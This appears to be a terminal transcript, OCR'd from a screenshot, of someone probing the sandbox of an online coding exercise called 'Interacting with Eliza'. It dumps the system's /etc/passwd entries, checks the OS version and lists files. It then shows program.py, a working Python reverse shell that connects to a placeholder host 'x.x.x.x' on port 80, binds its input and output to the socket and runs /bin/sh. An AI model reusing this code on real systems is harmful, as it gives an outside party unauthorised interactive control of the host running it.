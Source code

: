 ```bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh

cat /etc/issue
Ubuntu 12.10 \n \l

whereis vi 
vi:

cat > hello.txt <<__EOF__
Hi, there!
__EOF__

cat hello.txt
Hi, there!

ls -la
total 4
drwx------ 4 39540956 1002    0 Mar  4 18:22 .
drwx--x--x 4     1001 root 4096 Mar  4 18:23 ..
-rw------- 1 39540956 1002   11 Mar  4 18:23 hello.txt
-rw------- 1 39540956 1002  263 Mar  4 18:22 program.py

cat program.py
# Enter your code for "Interacting with Eliza" here.


import socket
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('x.x.x.x', 80))

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)

os.execv('/bin/sh', ['-i'])
```
